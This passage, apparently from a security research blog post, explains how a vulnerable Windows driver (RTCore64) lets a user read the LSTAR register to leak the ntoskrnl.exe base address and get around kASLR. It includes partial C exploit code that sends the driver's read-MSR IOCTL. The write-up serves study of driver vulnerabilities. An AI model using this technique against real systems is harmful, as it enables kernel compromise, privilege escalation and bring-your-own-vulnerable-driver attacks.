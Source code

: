![figure-6](/assets/img/drivers-1/figure-6.png){:style="display:block; margin-left:auto; margin-right:auto"}

This MSR read primitive is significant because it allows us to read any MSR, including the Long System Target-Address Register (LSTAR). LSTAR contains the virtual address to which the CPU will jump when a syscall instruction is executed in user-mode (this usually points to `nt!KiSystemCall64` or `nt!KiSystemCall64Shadow`). We can leverage this MSR read primitive to effectively leak the `Ntoskrnl.exe` base address which is essential to further our attack with a read and write primitive to kernel memory (kASLR will prevent us from using static addresses in the kernel, hence why we need this primitive). 

For some reason, you’ll find that other blogs covering the vulnerabilities in this driver may skip over this IOCTL. This is likely because the driver may be exploited from a medium integrity or higher environment (for BYOVD purposes) as opposed to a low-integrity environment for privilege escalation. Instead, most exploits rely on [EnumDeviceDrivers](https://learn.microsoft.com/en-us/windows/win32/api/psapi/nf-psapi-enumdevicedrivers) to derive the base address of `Ntoskrnl.exe`.

Regardless, I figured this is important to point out to understand how the driver can be exploited in both scenarios.

To leverage this primitive, we can use the following code to make the IOCTL request and retrieve the nt!KiSystemCall64Shadow address:

```c
#include <Windows.h>
#include <stdint.h>
#include <stdio.h>

...snip...
static const DWORD RTCORE_READMSR_IOCTL = 0x80002030;
static const wchar_t* DEVICE_NAME = L"\\\\.\\RTCore64";
static const DWORD LSTAR_MSR = 0xc0000082;

int main(int argc, char* argv[]) {

	HANDLE RTCORE_DEVICE = CreateFile(
		DEVICE_NAME,
		GENERIC_READ | GENERIC_WRITE,
		0,
		NULL,
		OPEN_EXISTING, 
		FILE_ATTRIBUTE_NORMAL,
		NULL
	);

	RTCORE_MSR_READ MsrRead;
	MsrRead.Register = LSTAR_MSR;
	DWORD BytesReturned;

	DeviceIoControl(
		RTCORE_DEVICE,
		RTCORE_READMSR_IOCTL, 
		&MsrRead, 
		sizeof(MsrRead),
		&MsrRead,
		sizeof(MsrRead),
```